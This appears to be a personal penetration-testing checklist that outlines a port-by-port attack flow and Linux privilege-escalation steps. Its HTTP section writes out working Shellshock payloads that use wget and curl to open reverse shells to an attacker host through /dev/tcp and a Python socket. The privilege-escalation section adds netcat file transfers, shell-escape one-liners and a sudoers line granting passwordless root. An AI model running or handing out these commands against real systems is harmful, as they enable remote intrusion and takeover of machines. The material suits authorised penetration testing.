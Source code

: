 # Flow Pentest

Sunday, August 14, 2022

12:56 AM

-  Scan of host
   -  Port 21 (FTP)
   -  Port 22 (SSH)
   -  Port 23 (Telnet)
   -  Port 25 (SMTP)
   -  Port 80 & 443 (HTTP/S)
      -  Check for /robots.txt
      -  Check source code
      -  Scan with Nikto
         -  If using proxy: Nikto –useproxy [proxyIPADDR]:port -h IPADDR
         -  CGI-BIN discovered
            -  Shellshock
               -  Test if vulnerable: wget -U “() { test;};echo \”Content-type: text/plain\”; echo; /bin/bash -c ‘echo vulnerable’”   -e use_proxy=yes -e http_proxy=proxyIPADDR+
               -  $ wget -qO- -U “() { test;};echo \”Content-type: text/plain\”; echo; echo; /usr/bin/python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\”HOSTIPADDR\”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\”/bin/sh\”,\”-i\”]);’ 2>&1″ -e use_proxy=yes -e http_proxy=PROXYIPADDR
               -  Shell: wget -U “() { test;};echo \”Content-type: text/plain\”; echo; /bin/bash -i >& /dev/tcp/HOSTIP/PORT 0>&1″   -e use_proxy=yes -e http_proxy=PROXYIPADDR
               -  curl -x  -H “User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.1.7/1234 0>&1”
      -  Dirbuster (GUI)
      -  Login Form Discovered
      -  Directory Traversal
      -  Command Injection
         -  File traverse
         -  Test HTTP options
         -  Upload file using Curl with if PUT option is available
         -  Wget file via command injection
         -  Activate shell file
         -  MySQL
      -  WordPress
      -  Local File Inclusion
      -  Remote Code Execution
      -  Check all directories for usernames or potential passwords
      -  Switch user agent
   -  Port 110 (POP3)
   -  Port 111 (RPCBind)
   -  Port 139/445 (SMB/RPC)
   -  Port 161 (SNMP)
   -  Port 1521 (Oracle)
   -  Port 3128 (Proxy)
   -  Port 3306 (MySQL)
   -  UNKNOWN PORT
   -  NO PORTS LISTED
-  Enumeration & Privilege Escalation
   -  Run enumeration script
   -  Transfer Files
      -  By Netcat
         -  on Host: nc -lvp PORT < example.c
         -  on target: nc -nv HOSTIP PORT > example.c
      -  By wget
         -  wget IPADDR/example.c
         -  start apache2 before hand
            -  service apache2 restart
   -  Escape limited shell
      -  python -c ‘import pty;pty.spawn(“/bin/bash”)’
      -  echo os.system(‘/bin/bash’)
      -  /bin/sh -i
      -  awk ‘BEGIN {system(“/bin/sh”)}’
      -  find / -name blahblah ‘exec /bin/awk ‘BEGIN {system(“/bin/sh”)}’ \;
      -  python: exit_code = os.system(‘/bin/sh’) output = os.popen(‘/bin/sh’).read()
      -  perl -e ‘exec “/bin/sh”;’
      -  perl: exec “/bin/sh”;
      -  ruby: exec “/bin/sh”
      -  lua: os.execute(‘/bin/sh’)
      -  irb(main:001:0> exec “/bin/sh”
   -  Check sensitive files
   -  Check kernel version
   -  Check distro
   -  Check for sudo privileges on non-root account
   -  Add sudo privileges
      -  USERNAME ALL=NOPASSWD; !/usr/bin/su, /bin/bash
   -  Check for passwords in config files
   -  Which services are running by root
   -  Check for SUID binaries
   -  Set SUID on file
   -  Which files are world writeable
   -  Service configurations
   -  Scheduled cronjobs
   -  Search for plain text usernames or passwords
   -  Check for secondary interfaces & networks
   -  Check which languages are installed
   -  How can files be uploaded
   -  SSH keys
   -  View bash history
   -  Default password locations
   -  MySQL
   -  Enumerate localhost
   -  Cracking Passwords
   -  Check for Password reuse
      -  enumerate users via cat /etc/passwd
-  Misc
Source:

